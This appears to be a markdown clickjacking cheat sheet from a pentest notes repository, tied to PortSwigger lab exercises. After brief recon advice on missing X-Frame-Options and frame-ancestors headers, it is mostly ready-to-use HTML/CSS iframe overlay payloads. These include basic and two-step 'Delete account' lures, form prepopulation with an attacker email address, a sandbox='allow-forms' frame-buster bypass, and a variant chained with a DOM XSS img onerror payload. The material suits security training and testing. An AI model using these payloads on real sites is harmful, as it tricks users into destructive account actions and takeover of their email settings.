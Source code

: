 # Clickjacking

## Summary
* [Recon for Clickjacking](#recon)
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Resources

* https://portswigger.net/web-security/clickjacking
* https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html

## Recon

* Identify if the application’s responses contain the following headers:
	* X-Frame-Options: *value*
	* Content-Security-Policy: frame-ancestors *value*

* If the responses do not contain these headers, then the application is most likely vulnerable to clickjacking.

---
---

## Cheat Sheet

### Basic Clickjacking:

* Use a basic clickjacking payload, that loads the vulnerable application’s page in an \<iframe\>, which contains a button to delete the user’s account.  We can use this method to trick a user into clicking on the “Delete account” button on the targeted application.  
	* For Example: height: 700px ,  weight: 500px , opacity: 0.1 , top: 500px , left: 100px

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="$VULNERABLE-APPLICATION-URL"></iframe>
```

### Prepopulate Form - Clickjacking

* It may be possible to prepopulate a form used in a POST request, by referencing those body parameters as query parameters in a GET request.
* Use a clickjacking payload, which will prepopulate a \<form\> parameter’s values, by using query parameters in a GET request.  
* Include this targeted web page in an \<iframe\>.  Since the form will be prepopulated, we only need to induce the user into clicking on the button that will submit the POST request.
	* For Example: height: 700px ,  weight: 500px , opacity: 0.1 , top: 500px , left: 100px

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="$VULNERABLE-APPLICATION-URL?email=hacker@attacker-website.com"></iframe>
```

### Prepopulate Form + Frame Buster Script Bypass

* It may be possible to prepopulate a form used in a POST request, by referencing those body parameters as query parameters in a GET request.
* Use a clickjacking payload, which will prepopulate a \<form\> parameter’s value, using a query parameter in a GET request.  
* Include this targeted web page in an \<iframe\> with the attribute **‘sandbox=“allow-forms”’**, this will neutralize the frame buster script .  Since the form will be prepopulated, we only need to induce the user into clicking on the button that will submit the POST request.
	* For Example: height: 700px ,  weight: 500px , opacity: 0.1 , top: 500px , left: 100px

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="$VULNERABLE-APPLICATION-URL?email=hacker@attacker-website.com"></iframe>
```

### Prepopulate Form + DOM XSS Exploit

* It may be possible to prepopulate a form used in a POST request, by referencing those body parameters as query parameters in a GET request.
* Use a clickjacking payload, which will prepopulate a \<form\> parameter’s value, using query parameters in a GET request. 
* One of these parameters will include a XSS payload, as a client-side script on the application is using the parameter’s value in a dangerous Sink.  Combining both clickjacking and XSS leads to a higher impact.  Without the clickjacking vulnerability, the XSS would be more difficult to pull off since the form requires a CSRF Token.
* Include this targeted web page in an \<iframe\>.  Since the form will be prepopulated, we only need to induce the user into clicking on the button that will submit the POST request.
	* For Example: height: 700px ,  weight: 500px , opacity: 0.1 , top: 500px , left: 100px

```html
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe
src="$VULNERABLE-APPLICATION-URL?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

### 2-Step Clickjacking Attack

* Use a basic clickjacking payload, that loads the vulnerable application’s page in an \<iframe\>, which contains a button to delete the user’s account.  We can use this method to trick a user into clicking on the “Delete account” button, then confirm the action by clicking on another button on the targeted application.
	* For Example: height: 700px ,  weight: 500px , opacity: 0.1 , top: 500px , left: 100px

```html
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value1;
		left:$side_value1;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="$VULNERABLE-APPLICATION-URL"></iframe>
```
